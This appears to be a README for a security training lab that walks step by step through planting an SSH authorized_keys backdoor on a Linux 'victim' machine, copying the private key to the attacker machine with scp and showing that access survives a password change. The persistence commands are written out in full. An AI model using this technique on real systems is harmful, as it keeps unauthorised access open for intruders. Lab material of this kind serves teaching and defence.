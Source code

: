 # Linux Backdoors

This lab setup is meant to simulate a security professional setting up a backdoor in order to maintain access to the compromised system even after the user changed the passwrod.


## Prerequisites

To set up the lab first log in on the victim machine and execute the <code>setup.sh</code> script as sudo using the following command executee in the terminal
```sh
sudo ./setup.sh
```
The purpose of the script is to create a new user and set a default passwrod. To reset the lab and start again the <code>reset.sh</code> script can be used to remove the user, after which the <code>setup.sh</code> script can be executed again.

Victim IP: **192.168.212.151**
Host IP: **192.168.1.132**

<br/>

## Instructions
The lab scenario starts on the attacker machine and all offensive techniques will be carried out from this machine.

1. Log into the victim machine with SSH using the command below. When prompted for password use: **l3tmein**
```sh
ssh web@192.168.212.151
```

2. Now that you managed access the victim machine it's time to set up the ssh backdoor via authorized keys. In the users home directory create the *.ssh* directory using the following command. Note that the . (dot) in front of the directory name means that this is a hidden directory.
```sh
mkdir .ssh
```

3. Next create a file called *authorized_keys* without any extensionu sing the touch command. This file is used to store the public SSH keys coresponding to the users who can access this server using their respective private keys.
```sh
touch .ssh/authorized_keys
```

4. One important aspect that should not be ignored is the restrictive permissions that must be seet for the *.ssh* and *authorized_keys*. This can be done with the <code>chmod</code> command.
```sh
chmod 700 .ssh
chmod 600 .ssh/authorized_keys
```

5. Next, it's time to generate a pair of ssh keys using the following command. the <code>-b</code> argument is used to specify the length of the key and the <code>-t</code> is used to specify the type of key. The ssh-keygen utility will create by default the public and private keys in the *.ssh* directory.
```sh
# Generare ssh key pair
ssh-keygen -b 4096 -t rsa
```

6. Now that the keys have been generated, it's time to copy the public key in the *authorized_keys* file, and this can be done using the cat command.
```sh
# Copy the public key in the authorized keys file
cat .ssh/id_rsa.pub >> .ssh/authorized_keys
```

7. Next it's time to copy the private key to the attacker machine, and this can be done via the <code>scp</code> command. On the attacker machine open another terminal. <code>scp</code> will copy the file *id_rsa* from the *.ssh* directory on the machine with the ip address *192.168.212.151* using the user *web* and the password **l3tmein**. The file will be copied into the current working directory on the attacker machine noted by the . (dot).
```sh
# retrieve the private key from the server using SCP to the local folder
scp web@192.168.212.151:.ssh/id_rsa .
```

8. With the private key copied, now it's time to attempt to connect to the victim machine with the private key using the following command. The <code>-i</code> argument is used to specify the path to the private key file on the attacker machine followed by the user and the ip address of the victim machine. At this point, you will not be prompted for the passwrod and will be logged on automatically.
```sh
# attempt a connection with the following command
ssh -i id_rsa web@192.168.212.151
```

9. Now that you have managed to access the victim machine without the users passwrod it's time to simulate the scenario that the user will change the passwrod. You can change the password as you already logged in using the following command.
```sh
# change the password to: web123
passwd web
``` 

10. Now log out by either typing <code>exit</code> or using the keyboard shortcut <code>Ctrl + D</code>.

11. Now try to log back in using the initial username and passwrod, it should not work:
```sh
ssh web@192.168.212.151
```

12. However, if you try to log in using the private key, it will work regardless of the password change:
```sh
ssh -i id_rsa web@192.168.212.151
```
